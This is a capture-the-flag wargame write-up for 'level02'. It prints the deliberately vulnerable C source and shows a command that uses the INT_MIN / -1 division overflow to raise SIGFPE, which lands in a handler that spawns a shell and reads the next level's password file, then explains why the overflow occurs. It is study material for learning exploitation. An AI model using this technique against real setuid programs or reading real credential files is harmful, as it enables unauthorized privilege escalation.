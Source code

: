 1. Check out the source file to see what we need to do:
   ```
   //a little fun brought to you by bla
   
   #include <stdio.h>
   #include <stdlib.h>
   #include <signal.h>
   #include <setjmp.h>
   
   void catcher(int a)
   {
        setresuid(geteuid(),geteuid(),geteuid());
        printf("WIN!\n");
        system("/bin/sh");
        exit(0);
   }
   
   int main(int argc, char **argv)
   {
        puts("source code is available in level02.c\n");
   
        if (argc != 3 || !atoi(argv[2]))
            return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
   }
   ```

2. We see that there's a signal to catch a SIGFPE: a floating point exception.
   Something like this can be caused by dividing by zero or some other similar
   exception (as you'll see below). We also see that there's a check to make sure
   we supply two command line arguments, and the second argument can not be zero.
   As the final return line shows, the first argument is dividied by the second
   and the absolute value of this operation is returned. Since argv[2] can't be
   zero, we need to find some other way to cause an exception.

3. Now here's the solution:
   ```
   level2@io:/levels$ ./level02 -2147483648 -1
   source code is available in level02.c

   WIN!
   sh-4.2$ cat /home/level3/.pass
   [Password to level3]
   ```

* To be perfectly honest, I'm not totally sure why this works. I played around with
these numbers for a little while and I just happened to get the right ones. I'll
look into a bit more to figure out exactly why this causes a SIGFPE.

Update: After doing some more playing in gdb and refreshing my mind a bit, I think I understand the issue. Signed numbers are represented by the most significant bit being 1. So the number 2147483647 is:
```
0x7fffffff -> 0111 1111 1111 1111 1111 1111 1111 1111
```
and that is the largest positive 32 bit signed integer value. So when we add 1 to it it becomes 2147483648 (or -2147483648 in this specific case) which is represented as:
```
0x80000000 -> 1000 0000 0000 0000 0000 0000 0000 0000
```
Now we've overflowed and we have a very large negative number. When diving by -1, you give the dividend the opposite sign. So when we try to take the opposite sign of -2147483648 the answer would obviously be 2147483648. The problem is that that number can't be represented in the world of 32 bit signed integers! Hence the SIGFPE. I believe that's the full explanation.

